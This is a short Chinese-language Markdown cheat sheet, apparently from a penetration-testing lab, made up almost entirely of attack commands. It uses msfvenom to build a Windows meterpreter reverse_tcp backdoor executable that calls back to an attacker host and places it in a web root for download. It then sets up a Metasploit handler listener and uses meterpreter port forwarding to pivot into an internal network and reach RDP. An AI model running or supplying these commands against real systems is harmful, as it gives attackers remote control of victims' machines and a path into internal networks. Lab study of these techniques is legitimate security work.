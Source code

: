 拓扑图![image-20210504173305049](../acess/image-20210504173305049.png)

生成metasploit后门

```bash
msfvenom  -p windows/meterpreter/reverse_tcp lhost=192.168.31.150  lport=12345 -f exe >/var/www/html/ss.exe
```

kali监听

```bash
use exploit/multi/handler
set payload  windows/meterpreter/reverse_tcp
set lhost 192.168.31.150
set lport 12345
exploit
```

映射端口

```bash
portfwd add -L 192.168.31.150 -l 2020 -p 80 -r 10.10.10.128
```

转发端口

```bash
portfwd add -l 5555 -p 3389 -r 192.168.31.130
portfwd delete -l 5555 -p 3389 -r 192.168.31.130
```

 远程连接

```
rdesktop 127.0.0.1:5555
```

查看列表

```bash
portfwd list
```

清空列表

```bash
portfwd flush
```

 

 

